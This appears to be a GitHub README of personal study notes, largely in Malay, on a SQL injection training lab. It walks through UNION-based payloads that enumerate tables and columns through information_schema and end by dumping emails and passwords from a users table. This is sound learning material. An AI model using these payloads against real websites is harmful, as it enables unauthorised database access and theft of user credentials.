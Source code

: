 # SQL-Injection-Training-Lab-notes
SQL Injection Training Lab notes for myself

## Level A - Basic GET SQL Injection
first payload for sqli `'` `"` `\` `)'` `}'` `\'` to test injectable

example page error after, use payload `'`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

if blind base does not have error

example page injectable and back to normal page after, use payload `'--+`
`--` komen untuk sql
`+` untuk space di url

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

payload `'+order+by+6--+` untuk cari berapa column yang ada dlm db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db. jika string union all select detect guna hex iaitu %61 atau no2 lain
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dlm db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter untuk current db sahaja mcm payload atas

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis column untuk db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis column untuk db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)
